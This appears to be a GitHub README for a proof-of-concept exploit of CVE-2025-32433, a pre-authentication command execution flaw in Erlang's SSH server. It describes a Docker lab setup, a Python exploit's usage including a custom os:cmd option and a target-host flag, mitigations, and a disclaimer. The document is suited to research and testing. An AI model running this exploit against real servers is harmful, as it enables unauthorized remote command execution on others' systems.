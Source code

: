 # CVE-2025-32433: Erlang SSH Server Pre-Authentication Command Execution

![Header Image Placeholder](img/header.png)

## Overview
This repository contains a proof-of-concept (PoC) for CVE-2025-32433, a vulnerability in the Erlang SSH server implementation that allows for pre-authentication command execution. The vulnerability affects Erlang/OTP versions 26.2.5.10 and potentially earlier versions.

## Technical Details
The vulnerability exists in the Erlang SSH server implementation, specifically in the handling of SSH connections and authentication mechanisms. The server accepts and processes SSH_MSG_CHANNEL_REQUEST messages before authentication is completed, allowing for arbitrary command execution.

### Affected Versions
- Erlang/OTP 26.2.5.10
- Potentially earlier versions

### Vulnerability Type
- Pre-authentication Command Execution
- CWE-306: Missing Authentication for Critical Function

## Setup Instructions

### Prerequisites
- 🐍 Python 3.x
- 🐳 Docker
- 🐳 Docker Compose

### Building the Vulnerable Environment
```bash
# Clone the repository
git clone https://github.com/yourusername/CVE-2025-32433.git
cd CVE-2025-32433

# Build and start the vulnerable server
docker-compose up --build
```

The vulnerable SSH server will be accessible on port 2222.

## Testing the Vulnerability

### Using the Python Exploit
```bash
# Install required dependencies
pip install colorama

# Basic test
python3 CVE-2025-32433.py

# Test with specific command
python3 CVE-2025-32433.py -c 'os:cmd("uname -a").'

# Test with verbose output
python3 CVE-2025-32433.py -v

# Test with pre-defined commands
python3 CVE-2025-32433.py -w  # whoami
python3 CVE-2025-32433.py -i  # id
python3 CVE-2025-32433.py -l  # ls -la
python3 CVE-2025-32433.py -pwd  # pwd
```

### Command Line Options
- `-H, --host`: Target host (default: localhost)
- `-p, --port`: Target port (default: 2222)
- `-t, --timeout`: Connection timeout in seconds (default: 5)
- `-v, --verbose`: Enable verbose output
- `-c, --command`: Custom command to execute
- `-w, --whoami`: Execute whoami command
- `-i, --id`: Execute id command
- `-l, --ls`: Execute ls command
- `-pwd, --pwd`: Execute pwd command

## Expected Behavior
- The SSH server should accept connection attempts
- The server will process commands before authentication
- All commands will be executed with the privileges of the Erlang process
- The server will respond with command output or error messages

## Mitigation
- Update to the latest version of Erlang/OTP
- Implement proper authentication checks before processing commands
- Restrict SSH access to trusted networks only
- Monitor for unauthorized access attempts

## Disclaimer
This PoC is provided for educational and research purposes only. Use it responsibly and only in controlled environments. The authors are not responsible for any misuse or damage caused by this code.

## References
- [CVE-2025-32433 Details](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-32433)
- [Erlang/OTP Security Advisory](https://www.erlang.org/security)
- [Original PoC](https://platformsecurity.com/blog/CVE-2025-32433-poc)
